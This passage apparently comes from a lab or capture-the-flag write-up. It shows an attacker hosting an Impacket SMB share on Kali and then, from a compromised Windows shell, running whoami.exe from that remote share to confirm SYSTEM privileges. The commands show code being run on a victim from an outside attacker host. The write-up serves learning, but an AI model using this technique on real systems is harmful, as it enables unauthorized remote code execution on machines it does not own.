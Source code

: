 Kali Linux comes with Windows binaries that can allow us to run the `whoami` command. To do this, we can simply host our own SMB server and have the compromised Windows box call to our SMB server to execute the command. Firstly, let's get the SMB server set up. To do that you can run the following command:

```
smbserver.py share /usr/share/windows-binaries/

Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

With that running, we are hosting an SMB server named `share` under the directory `/usr/share/windows-binaries/` which is where the `whoami` binary resides. Now we can head back to our compromised Windows box and use the command `\\$IP\share\whoami.exe` to connect to the SMB server and run the `whoami` binary.

```
C:\WINDOWS\system32>\\10.10.14.36\share\whoami.exe
\\10.10.14.36\share\whoami.exe
NT AUTHORITY\SYSTEM
```

And we can see we are SYSTEM!

